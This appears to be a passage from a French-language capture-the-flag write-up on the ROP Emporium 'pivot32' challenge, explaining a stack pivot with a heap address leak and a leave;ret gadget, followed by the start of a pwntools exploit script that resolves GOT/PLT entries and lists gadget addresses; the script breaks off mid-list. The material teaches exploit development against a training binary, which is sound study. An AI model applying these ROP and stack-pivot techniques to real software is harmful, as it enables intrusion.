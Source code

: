 On récupère l'adresse de la zone allouée dans le tas.

Second message avec débordement.

Le second Message déborde avec la chaine pivot.

| ROP entry | comment |
| ----------- | ------- |
| leak | adresse d'implantation de la chaine d'exploitation  -4|
| 0x080485f5 | leave;ret |

Le pivot enchaine sur la chaine de ROP postée avant.

## Exploitation

### Methode 1.

Methode en deux etape.
- On affiche l'adresse de la fonction foothold_function et on reboucle.
- On appelle l'adresse calculée de `re2win`.


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# Version avec lecture de la GOT avec puts et rappel

# ret : *pwnme+198
# read : *pwnme+172
gs='''
b *pwnme+172
c
'''
# Set up pwntools for the correct architecture
elf =  ELF('pivot32')
context.binary=elf
context.log_level='debug'

libelf = ELF('libpivot32.so')

useless_func=elf.symbols['uselessFunction']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']
plt_puts=elf.plt['puts']
pwnme=elf.symbols['pwnme']

lib_foothold = libelf.symbols['foothold_function']
lib_re2win = libelf.symbols['ret2win']
# Distance entre les fonctions ret2win et foothold_function
off_ret2win=lib_re2win-lib_foothold


# Les gadgets

# pop eax; ret
g_pop_eax=0x804882c

# mov eax, dword ptr [eax] ; ret
g_mov_eax_eax = 0x8048830

# pop ebx ; ret
```